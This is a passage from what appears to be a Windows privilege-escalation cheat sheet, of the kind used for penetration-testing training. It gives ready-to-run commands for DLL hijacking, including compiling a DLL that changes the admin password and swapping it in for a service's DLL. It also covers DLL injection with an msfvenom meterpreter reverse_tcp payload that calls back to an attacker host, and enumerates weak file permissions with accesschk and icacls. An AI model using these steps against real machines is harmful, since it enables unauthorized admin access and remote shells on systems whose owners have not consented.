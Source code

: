 The above code changes the admin password to \[newpass] Compile the code with the below command on linux

```
x86_64-w64-mingw32-gcc code.c -shared -o code.dll
```

Replace \[code.dll] with the targeted or missing dll on the target machine then stop and start its associated service to execute your dll.

#### DLL Injection

**With PowerSploit**

First generate malicious DLL with Msfvenom

```
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=your-ip LPORT=your-port -f dll > malicious.dll
```

Next we need to PID of the process which will be our target. You can obtain the PID from the task manager or by listing the running processes. Then we invoke the DLL injection module

```
Invoke-DLLInjection -ProcessID PID -Dll C:\path-to-malicous-DLL
```

Note: `make sure you setup your listener in metasploit multi handler module with same settings you used when creating the DLL with msfvenom`

#### Finding Weak File Permissions

**Using accesschk**

Link

```
https://technet.microsoft.com/en-us/sysinternals/accesschk.aspx
```

After you have uploaded it to the target machine you can execute the below command

```
accesschk.exe -uwqcv "user" * -accepteula
```

Based on the output, you can decide what privilege escalation methods to use from this document. Common privilege escalation methods that exploit weak file permissions are

```
unquoted service path
DLL Hijacking
```

**Using Icacls**

We can find files and directories with full control assigned to every one

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"

icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"

icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
```
